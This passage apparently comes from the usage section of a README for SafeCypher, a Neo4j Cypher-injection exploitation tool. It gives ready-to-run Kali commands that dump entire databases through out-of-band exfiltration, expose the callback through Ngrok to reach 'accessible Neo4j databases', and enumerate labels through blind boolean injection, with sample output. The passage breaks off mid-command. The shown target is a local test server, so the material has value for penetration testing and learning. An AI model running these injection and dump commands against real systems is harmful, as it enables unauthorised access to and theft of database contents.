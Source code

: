 	[!] View node relationship graph: file:///root/tools/web/safecypher/output/network.html
	```
5. Dump everything
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i eth0 -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
	```

#### Utilizing Ngrok for Public Testing

1. Set Ngrok authtoken.
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ export NGROK_AUTHTOKEN=<your token>
	```
2. Change the interface to 'public' for wide-reaching tests, allowing SafeCypher to perform comprehensive assessments on accessible Neo4j databases.
	```
	# change -i to public
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -i public -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --out-of-band --dump-all
	```

### In-Band (Blind Boolean)
1. Dump labels
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band --labels -t 2
	
	[*] target likely injectable, continuing
	[+] working character: [']
	
	[*] available labels [5]
	[+] User
	[+] Keyboard
	[+] Character
	[+] Place
	[+] Organization
	```

2. Dump properties in relation to label
	```
	┌──(root💀kali)-[~/tools/web/safecypher]
	└─$ python3 safecypher.py -u http://127.0.0.1:5000/search1 -p keyboard_name -m POST -s "Kohaku" -c "session=.eJwljjkOwkAQBP-yMcEce_ozaI4d4QACG0eIv7MSUSVdrfqkexzzfKTtfVzzlu67py05QhmVWxZrKqxAYNg5q_fqvUhDos5kE2FGZBFuwTRNyJCKqIHVaM5tOluRdZdjCiwGVlbCUSG7WVmLFjZ4GaOAFu3DkTStkOucx79G_Lm_0vcHlIYxkw.ZhBXpw.UyRIVeXBJ-HKO95YpMo32ceI0Fg" --in-band -L User --properties -t 2
	